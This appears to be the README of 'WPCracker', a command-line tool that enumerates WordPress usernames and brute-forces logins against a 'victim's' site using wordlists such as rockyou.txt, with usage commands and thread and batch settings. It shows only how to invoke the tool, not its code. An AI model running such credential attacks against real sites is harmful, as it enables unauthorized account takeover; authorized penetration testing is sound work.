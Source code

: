 # WPCracker

WordPress user enumeration and login Brute Force tool

The tool makes it possible to adjust the number of threads as well as how large password batches each thread is tested at a time.

It takes about two days to go through the rockyou.txt (14,341,564 unique passwords) dictionary on my hardware when using the program's presets for the number of threads (12) and the size of the batches (1000).

# Using:

## User Enumeration
```Bash
.\WPCracker.exe --enum -u <Url to victim's wp-login.php>
```
#### OR JUST
```Bash
.\WPCracker.exe --enum
```
In this case, the program only requests the required information

## Brute Force

### Using program's presets
```Bash
.\WPCracker.exe --brute -u <Url to victim's WordPress page> -p <Path to wordlist> -n <Username>
```
#### OR JUST
```Bash
.\WPCracker.exe --brute
```
In this case, the program only requests the required information

### Using with custom settings
```Bash
.\WPCracker.exe --brute -u <Url to victim's WordPress page> -p <Path to wordlist> -n <Username> -t <Max threads> -c <Batch maximum size>
```

### Get help
```Bash
.\WPCracker.exe --brute -?
```

# This is for ethical use only :)

#### Thank's for [adamabdelhamed's PowerArgs](https://github.com/adamabdelhamed/PowerArgs "PowerArgs")
